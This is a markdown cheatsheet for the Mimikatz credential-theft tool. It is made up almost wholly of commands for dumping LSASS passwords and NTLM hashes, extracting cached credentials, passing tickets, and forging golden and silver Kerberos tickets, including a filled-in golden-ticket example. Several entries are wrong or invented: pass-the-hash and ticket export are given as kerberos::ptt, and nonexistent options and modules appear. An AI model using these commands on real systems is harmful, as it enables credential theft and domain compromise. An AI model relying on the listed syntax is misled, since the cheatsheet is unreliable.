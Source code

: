 # Mimikatz large Cheatsheet
> 29.07.2024

---


---

# Mimikatz Cheatsheet

**Note:** Use Mimikatz responsibly and only on systems for which you have explicit authorization.

## Basic Syntax

```plaintext
mimikatz # <module> [<options>]
```

### Command Line Execution

```bash
mimikatz.exe <command>
```

### Example

```bash
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

---

## Common Commands

### Privileges

- **Enable Debug Privileges:**
  ```plaintext
  privilege::debug
  ```

### Kerberos

- **Dump Kerberos Tickets:**
  ```plaintext
  kerberos::list
  ```

- **Export Kerberos Tickets:**
  ```plaintext
  kerberos::ptt <ticket_file>
  ```

- **Purge Kerberos Tickets:**
  ```plaintext
  kerberos::purge
  ```

### Credentials

- **Dump Passwords and Hashes:**
  ```plaintext
  sekurlsa::logonpasswords
  ```

- **Dump NTLM Hashes:**
  ```plaintext
  sekurlsa::logonpasswords /export
  ```

- **Dump LSASS Process Memory (admin required):**
  ```plaintext
  sekurlsa::logonpasswords /dump
  ```

### Pass-the-Hash (PTH)

- **Pass-the-Hash Authentication:**
  ```plaintext
  kerberos::ptt <ticket_file>
  ```

- **Pass-the-Ticket (PTT):**
  ```plaintext
  kerberos::ptt <ticket_file>
  ```

### Credential Dumping

- **Extract Cached Credentials:**
  ```plaintext
  lsadump::cache
  ```

- **Extract Domain Credentials:**
  ```plaintext
  lsadump::dcc
  ```

### Golden Ticket

- **Create Golden Ticket:**
  ```plaintext
  kerberos::golden /user:<username> /sid:<domain_sid> /krbtgt:<key> /rc4:<key> /ptt
  ```

### Silver Ticket

- **Create Silver Ticket:**
  ```plaintext
  kerberos::silver /user:<username> /rc4:<key> /sid:<domain_sid> /service:<service> /target:<target>
  ```

### DCOM/Remote Commands

- **Execute Commands on Remote Machines:**
  ```plaintext
  dcom::exec /command:<command>
  ```

### Mimikatz Modules

- **List Available Modules:**
  ```plaintext
  module::list
  ```

- **Load Module:**
  ```plaintext
  module::load <module_name>
  ```

- **Unload Module:**
  ```plaintext
  module::unload <module_name>
  ```

### Miscellaneous

- **Dump Credentials in a Specific Format:**
  ```plaintext
  sekurlsa::logonpasswords /json
  ```

- **Export Credentials to a File:**
  ```plaintext
  sekurlsa::logonpasswords /export <filename>
  ```

- **List Sessions:**
  ```plaintext
  session::list
  ```

### Example Usage

- **Enable Debug Privileges and Dump Passwords:**
  ```plaintext
  mimikatz # privilege::debug
  mimikatz # sekurlsa::logonpasswords
  ```

- **Dump and Export NTLM Hashes:**
  ```plaintext
  mimikatz # privilege::debug
  mimikatz # sekurlsa::logonpasswords /export
  ```

- **Create a Golden Ticket:**
  ```plaintext
  mimikatz # kerberos::golden /user:administrator /sid:S-1-5-21-3623811015-3361044348-30300820 /krbtgt:1234567890abcdef1234567890abcdef /rc4:1234567890abcdef1234567890abcdef /ptt
  ```

- **Dump Kerberos Tickets:**
  ```plaintext
  mimikatz # kerberos::list
  ```
